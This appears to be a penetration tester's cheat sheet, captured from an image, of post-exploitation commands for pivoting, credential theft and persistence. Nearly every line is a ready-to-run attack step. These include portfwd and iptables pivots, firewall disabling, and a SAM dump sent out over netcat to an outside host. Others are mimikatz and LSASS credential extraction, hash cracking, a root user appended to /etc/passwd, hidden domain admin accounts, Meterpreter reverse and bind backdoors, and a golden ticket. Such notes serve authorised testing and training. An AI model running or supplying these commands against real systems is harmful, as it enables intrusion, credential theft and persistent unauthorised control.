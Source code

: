 ## File Transfer:

## Pivoting & Redirection:  

	Pivoting:
		*Use MSF portfwd when possible
		Within Meterpreter:  portfwd add -l <local port on the attacking machine (yours)> -p <victim port we want to access> -r <victim IP address>  ;  portfwd list  -  like SSH local forwarding  (help: portfwd -h)
			Forward:
				ex. portfwd add -L 127.0.0.1 -l 55555 -r 192.168.0.11 -p 55555
				ex. portfwd add -L 127.0.0.1 -l 2222 -r 192.168.200.69 -p 22 ; ssh user@localhost -p 2222
			Reverse (for intermediate reverse shell callback):  portfwd add -R -L 192.168.106.52 -l 9998 -p 9999  (reverse forward T2 9999 to T1 9998) (ran on T2)
				**portfwd add -R -L 127.0.0.1 -l RHP1 -r 192.168.106.52 -p RHP2  (run on meterp session of .106.52 box)
					**-r can be the listening box interface, or the box that will connect to it
				ex. portfwd add -R -L 127.0.0.1 -l 8888 [-r 192.168...] -p 9999    (forwards [192.168... interface on victim] 9999 to my 8888)
		run autoroute -s 10.1.13.0/24   -  then attack directly in MSF  (help: run autoroute -h)
		*Add Route (within MSF):  background; route add 192.168.0.0 255.255.255.0 <session_id>
		PSExec/PTH (port 445):  use exploit/windows/smb/psexec  \\  use admin/smb/psexec_command (stealthier)
			*Note: psexec uses powershell, so logging may be active; ****MAKE SURE TO USE PAYLOAD WITH PSEXEC--otherwise will try to connect directly to attack box
			Enable Firewall to Connect Back through:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389'          
	Allow into Firewall:
	    Unix:
		sudo iptables -A INPUT -p tcp --dport 22 -s 192.168.11.13 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
	    Windows:
		New Rule:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389'
			Delete:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall delete rule name=RDP'
		Modify Existing Rule:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall set rule name=callforhelp new remoteip=any'
	Routing w/ Fpipe:
		upload /tmp/fpipe.exe c:/windows/temp/fp.exe
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall show rule profile=any name=all'
		execute -f c:/windows/temp/fp.exe -a '-l 3389 -r 22 192.168.200.69'
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name=3389 dir=in action=allow protocol=TCP localport=3389'
		-L 33389:172.17.20.10:3389
		ssh user@localhost -p 33389
	Routing w/ Portproxy:
		run multicommand -cl 'cmd.exe /c netsh interface portproxy set v4tov4 listenport=3389 connectaddress=192.168.200.69 connectport=22'
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name=3389 dir=in action=allow protocol=TCP localport=3389'
		ssh user@localhost -p 33389
		Or:  run post/windows/manage/portproxy ...
	*Remember to delete rule afterwards
	Routing w/ Iptables:
		-L8080:192.0.2.79:8080
		iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 8080 -j DNAT --to-destination 192.168.255.12:80
		If conntrack module is loaded, no need for a reversing rule
		echo 1 > /proc/sys/net/ipv4/ip_forward
		iptables -I RH-Firewall-1-INPUT 10 -p tcp --dport 80 -j ACCEPT
		iptables -t nat -A POSTROUTING -p tcp --dport 80 -d 192.168.255.12 -j SNAT --to-source 172.17.10.79
		nc -n 127.0.0.1 8080

## Persistence/Credentials:

    Unix:
        Add User:  echo root2:w08rKyoC9ECsg:0:0:/root:/bin/bash >> /etc/passwd     #password
        cat /etc/passwd /etc/shadow

    Windows:
    	Post-Exploitation Metasploit Modules:  https://www.infosecmatter.com/post-exploitation-metasploit-modules-reference/
        Credentials:
            SAM Files:
                Dump (if admin):  reg save hklm\sam c:\sam, reg save hklm\system c:\system,  and transfer back:  nc64.exe 10.10.14.18 4445 < SAMS   ,  nc -nvlp 4445 > SAMS
                Decrypt (Unix):  python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM [ip]
                Decrypt (Windows):  mimikatz.exe; privilege::debug; token::elevate; lsadump::sam filename1.hiv filename2.hiv
                Crack:  hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
            Meterpreter:  
	    	hashdump  \\  Better:  run hashdump \ run post/windows/gather/smart_hashdump
	    		john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
			use auxiliary/analyze/jtr_crack_fast
		GPO creds:  use post/windows/gather/credentials/gpp, set ... DOMAINS=BOOT SESSION=#
	   	run credcollect
	    	steal_token <PID> / drop_token
            Mimikatz: pull credentials from memory
                Local:  mimikatz.exe; privilege::debug; sekurlsa::logonpasswords full  \\  mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
                    In Meterpreter:  load mimikatz; msv  \\  creds_all  \\  kerberos  \\  mimikatz_command -f samdump::hashes  \\  mimikatz_command -f sekurlsa::searchPasswords  \\  execute -H -i -c -f /root/Desktop/Mimikatz/x64/mimikatz.exe -m
                	Option 1: load kiwi; creds_all  \\  creds_msv  \\  creds_kerberos   (require System)
			Option 2: load kiwi; kiwi_cmd "privilege::debug"; kiwi_cmd "sekurlsa::logonPasswords full"; kiwi_cmd "sekurlsa::credman"; kiwi_cmd "SEKURLSA::Kerberos"; kiwi_cmd "SEKURLSA::Krbtgt"; kiwi_cmd "SEKURLSA::SSP"; kiwi_cmd "SEKURLSA::Wdigest"
		From LSASS dump:
                    from task manager  \\  procdump -ma lsass.exe lsass.dmp  \\  Import-Module .\OutMiniDump.ps1; Get-Process lsass | Out-Minidump (https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1)
                    mimikatz “sekurlsa::minidump C:\Users\username\AppData\Local\Temp\lsass.DMP”; sekurlsa::logonPasswords
        Persistence:
	        Add User:  net user <user> <pass> /add; net localgroup "Administrators" <USER> /add
			Meterpreter:  run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD","cmd.exe /c net localgroup 'Administrators' metasploit /ADD" ; Domain: run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD /DOMAIN","cmd.exe /c net group "Domain Admins" metasploit /ADD /DOMAIN"
				Make Domain Admin:  run multicommand -cl 'cmd.exe /c net group "Domain admins" mossa /add /domain'; run multicommand -cl 'cmd.exe /c net group "Domain admins" /domain'
		RDP:
		    Enable RDP Access:
			reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG_DWORD /d 0
			netsh firewall set service remoteadmin enable
			netsh firewall set service remotedesktop enable
		    Add RDP User:  net localgroup "Remote Desktop Users" <USER> /add
		    Meterpreter:  run post/windows/manage/enable_rdp username=admin,password=password
		    	Or: run getgui -e  //  or  run getgui -u loneferret -p password  ;  then cleanup:  ex. run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__....rc
		Telnet:  run gettelnet [-e  //  -u user -p pass]
		Turn Off Firewall:
		    Newer:  netsh advfirewall set allprofiles state off
		    Older:  netsh firewall set opmode disable
		Meterpreter Bind Backdoor:  run metsvc; use exploit/multi/handler; set PAYLOAD windows/metsvc_bind_tcp; set LPORT 31337; set RHOST 192.168.1.104; run
			Reverse Backdoor (reboot persistent):  run persistence -U -i 5 -p 443 -r 192.168.1.71; use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.71; set LPORT 443; exploit
		Meterpreter Golden Ticket:  load kiwi;  golden_ticket_create -u mossa -d BOOT.LAB -k (krbtgt hash last half only) -s (Domain User SID w/o last 4 digits--from enum_users) -t /tmp/ticket
			kerberos_ticket_list; kerberos_ticket_use /tmp/ticket
